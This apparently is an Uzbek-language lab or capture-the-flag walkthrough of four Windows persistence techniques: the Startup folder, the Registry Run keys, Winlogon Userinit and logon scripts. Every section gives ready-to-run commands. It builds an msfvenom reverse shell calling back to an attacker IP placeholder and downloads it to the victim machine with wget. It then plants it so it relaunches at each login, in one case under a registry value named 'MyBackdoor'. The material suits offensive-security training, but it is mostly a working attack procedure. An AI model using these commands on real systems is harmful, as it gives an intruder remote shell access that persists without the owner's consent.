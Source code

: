## ✅ **1. Startup folder orqali persistence**

### 🎯 Maqsad:

Foydalanuvchi tizimga kirganda avtomatik ishlaydigan `.exe` faylni joylashtirish.

### 🧩 Izoh:

* Har bir foydalanuvchining quyidagi joyda `Startup` papkasi bor:

  ```
  C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
  ```
* Bu yerga `.exe` fayl qo‘yilsa, foydalanuvchi tizimga kirganda u avtomatik ishlaydi.
* Agar barcha foydalanuvchilar uchun ishga tushishini xohlasak:

  ```
  C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  ```

### ⚙️ Bosqichlar:

1. Payload yaratish:

   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=HUJUMCHI_IP LPORT=4450 -f exe -o revshell.exe
   ```

2. Faylni serverda joylash va qurbon kompyuterda yuklab olish:

   ```bash
   python3 -m http.server
   ```

   Qurbon kompyuterda:

   ```powershell
   wget http://HUJUMCHI_IP:8000/revshell.exe -O revshell.exe
   ```

3. Faylni `Startup` papkaga nusxalash:

   ```cmd
   copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
   ```

4. Logout qilish (RDP oynasini yopish emas, **"Sign out"** qilish).

5. Qayta kirilganda shell qaytib keladi.

6. Ushbu shell orqali flagni ishga tushirish:

   ```cmd
   C:\flags\flag10.exe
   ```

---

## ✅ **2. Registry Run / RunOnce orqali persistence**

### 🧩 Registry kalitlari:

* Faqat joriy foydalanuvchi uchun:

  ```
  HKCU\Software\Microsoft\Windows\CurrentVersion\Run
  HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
  ```
* Barcha foydalanuvchilar uchun:

  ```
  HKLM\Software\Microsoft\Windows\CurrentVersion\Run
  HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
  ```

`Run` – har loginda ishlaydi
`RunOnce` – faqat 1 marta ishlaydi

### ⚙️ Bosqichlar:

1. Payload yaratish:

   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=HUJUMCHI_IP LPORT=4451 -f exe -o revshell.exe
   ```

2. Qurbon kompyuterga o‘tkazish va ko‘chirish:

   ```cmd
   move revshell.exe C:\Windows
   ```

3. Registry kalitini yaratish:

   ```powershell
   reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v MyBackdoor /t REG_EXPAND_SZ /d "C:\Windows\revshell.exe"
   ```

4. Logout va qayta login – shell keladi.

5. Flagni ishga tushirish:

   ```cmd
   C:\flags\flag11.exe
   ```

---

## ✅ **3. Winlogon orqali persistence (Userinit key)**

### 🧩 Registry kaliti:

```
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
```

* `Userinit` odatda `C:\Windows\system32\userinit.exe`
* Biz unga `,C:\Windows\revshell.exe` qo‘shamiz — bu ikkala fayl ketma-ket ishga tushadi.

### ⚙️ Bosqichlar:

1. Payload yaratish:

   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=HUJUMCHI_IP LPORT=4452 -f exe -o revshell.exe
   ```

2. Qurbon kompyuterga yuklash:

   ```cmd
   move revshell.exe C:\Windows
   ```

3. Registry ni o‘zgartirish:

   ```powershell
   reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /t REG_SZ /d "C:\Windows\system32\userinit.exe,C:\Windows\revshell.exe" /f
   ```

4. Logout va qayta login – shell qaytadi.

5. Flagni ishga tushiring:

   ```cmd
   C:\flags\flag12.exe
   ```

---

## ✅ **4. Logon scripts orqali persistence (UserInitMprLogonScript)**

### 🧩 Qanday ishlaydi:

* Windows foydalanuvchi login qilganda, `UserInitMprLogonScript` nomli environment variable ni tekshiradi.
* Uni registry orqali yaratishimiz mumkin:

  ```
  HKCU\Environment
  ```

### ⚙️ Bosqichlar:

1. Payload yaratish:

   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=HUJUMCHI_IP LPORT=4453 -f exe -o revshell.exe
   ```

2. Qurbon kompyuterga yuklash:

   ```cmd
   move revshell.exe C:\Windows
   ```

3. Registry kalitini yaratish (faqat joriy foydalanuvchi uchun!):

   ```powershell
   reg add "HKCU\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\Windows\revshell.exe"
   ```

4. Logout → login → shell qaytadi.

5. Flagni ishga tushiring:

   ```cmd
   C:\flags\flag13.exe
   ```

---

## ✅ Xulosa:

| Usul                 | Qo‘llaniladigan joy | Har kim uchunmi? | Qachon ishlaydi? |
| -------------------- | ------------------- | ---------------- | ---------------- |
| Startup Folder       | Startup papkasi     | Ha/Yoq           | Har doim login   |
| Registry Run/RunOnce | HKCU yoki HKLM      | Ha               | Run → Har doim   |
| Winlogon (Userinit)  | Winlogon registry   | Ha               | Har doim login   |
| Logon Script         | HKCU\Environment    | Faqat joriy user | Har doim login   |
